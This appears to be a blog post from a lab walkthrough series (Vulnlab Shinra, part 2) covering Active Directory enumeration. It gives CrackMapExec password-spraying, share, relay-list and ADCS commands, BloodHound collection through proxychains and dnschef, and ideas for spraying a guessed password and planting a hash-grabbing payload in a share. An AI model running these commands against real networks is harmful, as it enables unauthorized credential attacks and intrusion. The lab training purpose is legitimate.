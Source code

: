 ```yaml
---
categories:
- Vulnlab
image:
  path: https://img.youtube.com/vi/9EjXPJ1mweg/0.jpg
layout: post
media_subpath: /assets/posts/2023-01-10-vl-shinra-enumerate-enumerate-enumerate
tags:
- active directory
- linux
- windows
title: VL Shinra Part 2 - Enumerate, Enumerate, Enumerate!
---
```


This is the second video of the Shinra series. Before setting foot onto any of the network’s internal machines, we are going to spend a bit of time enumerating various things from our machine.

{% youtube 9EjXPJ1mweg %}

Some ideas for further steps that are not shown in the video:

- Spray "Shinra2022" or variations of it against all users in the domain.
- Place a hash grabbing payload (e.g. <https://github.com/xct/hashgrab>) inside the workspace share and see if you can find any hashes.

## Notes

**Tools**

- <https://github.com/ly4k/Certipy>
- <https://github.com/iphelix/dnschef>
- <https://github.com/fox-it/BloodHound.py>
- <https://github.com/Porchetta-Industries/CrackMapExec>

**Tcpdump**

```
tcpdump -i ens37 -s 0 -w - -U | tee output.pcap | tcpdump -r -
```

**Credential spraying**

```terminal
crackmapexec smb 172.16.11.10 -u user.txt -p pass.txt --no-bruteforce --continue-on-success
```

**Bloodhound**

```terminal
sudo sh -c 'proxychains python3 /home/xct/tools/dnschef/dnschef.py --fakeip 172.16.11.101 --fakedomains shinra-dev.vl -q'

proxychains bloodhound-python -c all --disable-pooling -w 1 -u "william.davis" -p 'password' -d shinra-dev.vl -dc dc.shinra-dev.vl -ns 127.0.0.1
```

**Shares**

```terminal
crackmapexec smb 172.16.11.3-254 -u "william.davis" -p 'password' --shares
```

**SMB Signing**

```terminal
crackmapexec smb 172.16.11.3-254 --gen-relay-list relay.txt
```

**Machine Account Quota**

```terminal
crackmapexec ldap 172.16.11.101 -u "william.davis" -p 'password' -M maq
```

**ADCS**

```terminal
crackmapexec ldap 172.16.11.101 -u "william.davis" -p 'password' -M adcs
crackmapexec ldap 172.16.11.101 -u "william.davis" -p 'password' -M adcs -o SERVER=shinra-dev-CA
certipy find -u "william.davis" -p 'password' -dc-ip 172.16.11.101 
```